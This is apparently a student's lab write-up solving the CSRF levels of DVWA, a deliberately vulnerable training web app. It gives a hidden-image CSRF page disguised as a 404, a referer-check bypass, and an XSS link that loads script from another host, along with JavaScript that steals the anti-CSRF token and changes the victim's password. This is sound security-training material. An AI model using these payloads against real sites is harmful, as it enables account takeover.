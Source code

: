 # DVWA - CSRF Solution

## Low level
### Solution
> We can write a html page to let the user to browse and the web will show 404, but we can change the password by the img url.

```htmlembedded=
<img src="http://192.168.1.66/DVWA-master/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#" border="0" style="display:none;"/>

<h1>404 ERROR !<h1>

<h2>Files Not Found.<h2>
```
### Error on Chrome
> > The Chrome can't access the cookie through different domain. Because the feature of Chrome(https://www.chromestatus.com/feature/5629709824032768), we can't access the cookie of the different domain. 
> ![](https://i.imgur.com/PqmTfJw.png)
> 
> So, we need to establish the web server in the same domain or use the other bowser.
> 
> ![](https://i.imgur.com/4CNmovS.png)

## Medium level
> > In this case it will check the HOST_REFERENCE and HOST_HOST, so we can not use the file to be clicked. We need to let the attacked ise the web server to access the html file.
> So I establish the web server on another VM. And we need to rename the HTML file be the host IP. Then we can change the attacked's password. 
> ![](https://i.imgur.com/DfNqBkP.png)

## High level of CSRF
> In this case, the web site add the Auti-CRSF token, so we need to get the user-token to change his/her password.
> Use the XSS weakness to get the user token and send the request to change the password.
> 
> Use the "http://140.118.121.110:22334/DVWA-master/vulnerabilities/xss_d/?default=English#<script src="http://140.118.121.100/xss.js"></script>" to le attacked to click.
> 
> XSS.js (put it into the web server)
```javascript=1
// alert(document.cookie);

var theUrl = 'http://140.118.121.110:22334/DVWA-master/vulnerabilities/csrf/';

if(window.XMLHttpRequest) {
    xmlhttp = new XMLHttpRequest();
}else{
    xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}

var count = 0;
xmlhttp.withCredentials = true;

xmlhttp.onreadystatechange = function(){
    if(xmlhttp.readyState == 4 && xmlhttp.status == 200)
    {
        var text = xmlhttp.responseText;
        var regex = /user_token\' value\=\'(.*?)\' \/\>/;
        var match = text.match(regex);
        // console.log(match);
        // alert(match[1]);
        var token = match[1];
        var new_url = 'http://140.118.121.110:22334/DVWA-master/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change&user_token=' + token + '#';
        if(count == 0){
            count++;
            xmlhttp.open("GET", new_url, false);
            xmlhttp.send();
        }
    }
};

xmlhttp.open("GET", theUrl, false);
xmlhttp.send();
```


## Impossible level of CRSF
> In this case, web site add the PDO to protect the sql injection. And it request the user to enter the origin password to check. So, we don't know the attacked's password we can't to attack the password.
> 
